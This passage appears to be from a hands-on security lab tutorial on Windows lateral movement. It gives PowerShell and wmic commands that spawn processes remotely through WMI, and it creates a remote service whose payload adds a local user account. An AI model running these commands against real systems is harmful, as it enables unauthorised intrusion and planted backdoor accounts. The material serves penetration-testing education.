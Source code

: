 
## Remote Process Creation Using WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
        
- **Required Group Memberships:** Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Notice that WMI won't allow you to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt:

```shell-session
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```


## Creating Services Remotely with WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```
